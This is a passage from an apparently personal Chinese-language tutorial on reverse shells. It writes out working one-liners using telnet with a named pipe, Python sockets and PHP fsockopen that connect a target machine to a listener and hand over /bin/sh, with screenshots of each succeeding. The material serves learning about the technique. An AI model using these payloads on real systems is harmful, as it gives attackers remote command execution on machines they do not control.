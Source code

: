 - 攻击机开启监听
（用 **nc** 或者 **socat** 都行）
- 目标机执行命令，建立连接：
`mknod a p; telnet 47.xxx.xxx.72 2333 0<a | /bin/bash 1>a`
![image-20230426012739427](https://res.cloudinary.com/sycamore/image/upload/v1682443663/Typera/2023/04/db443fe2827a018ce3cb046f63793326.png)
- 成功获得 **反弹 Shell**：
![image-20230426012732507](https://res.cloudinary.com/sycamore/image/upload/v1682443657/Typera/2023/04/d3d507d38eb37d836868b42d5f90db17.png)
## 用 Python 脚本反弹 Shell
使用 **Python** 的 **socket** 库

攻击机开启监听后，直接使用命令：
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.158.139",23333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
（或者也可以转化成 .py 的 Python 文件，然后命令行执行）

如下图所示：
![image-20230426012727025](https://res.cloudinary.com/sycamore/image/upload/v1682443651/Typera/2023/04/ff1cae7c81c0b04929f2c86b0e788c9e.png)
成功反弹 **Shell**
![image-20230426012721830](https://res.cloudinary.com/sycamore/image/upload/v1682443647/Typera/2023/04/6826b2f0cec7b82a3677a2e1e86de378.png)

## 用 php 脚本反弹 Shell
攻击侧开启监听，目标机执行的 php 脚本如下：
```
php -r '$sock=fsockopen("192.168.158.139",23333);exec("/bin/sh -i <&3 >&3 2>&3");'
```
实现如下：
![image-20230426012715771](https://res.cloudinary.com/sycamore/image/upload/v1682443639/Typera/2023/04/fdd3929e8cec1fc5e67af1614f47d9b4.png)
![image-20230426012702683](https://res.cloudinary.com/sycamore/image/upload/v1682443627/Typera/2023/04/c830f507fd2cc729beb4e10b7a5d18cd.png)

## 最后
逐一实现了这么多的 **反弹 Shell** 的方法，我发现他们本质上都是一致的。

无论是用工具还是脚本，都是 建立连接 + 输入输出重定向。

总得来说，这样一遍下来，最开始读起来较为模糊的原理，现在也能够清晰地理解了。

